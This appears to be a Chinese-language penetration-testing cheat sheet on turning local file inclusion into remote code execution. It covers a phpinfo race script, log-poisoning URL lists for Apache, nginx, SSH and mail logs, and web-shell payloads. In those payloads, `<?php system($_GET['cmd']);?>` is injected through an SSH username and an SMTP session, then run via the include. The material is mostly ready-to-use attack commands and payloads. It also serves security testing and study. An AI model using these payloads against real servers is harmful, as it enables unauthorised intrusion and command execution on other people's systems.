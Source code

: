 ## 通过phpinfo()实现LFI到RCE

PHPinfo()显示任何变量的内容，如**$_GET**、**$_POST**和**$_FILES**。

> 通过向PHPInfo脚本发送多个上传请求，并仔细控制读取，可以检索临时文件的名称，并向LFI脚本发送指定临时文件名的请求。

使用脚本 [phpInfoLFI.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

## 通过可控日志文件实现LFI到RCE

只需通过向服务（Apache、SSH等）发送请求将PHP代码附加到日志文件中，然后包含该日志文件。

```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

### 通过SSH实现RCE

尝试使用PHP代码作为用户名SSH登录：`<?php system($_GET["cmd"]);?>`。

```
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

然后在Web应用程序中包含SSH日志文件。

```
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### 通过邮件实现RCE

首先使用开放的SMTP发送电子邮件，然后包含位于`/var/log/mail`的日志文件。

```
telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```
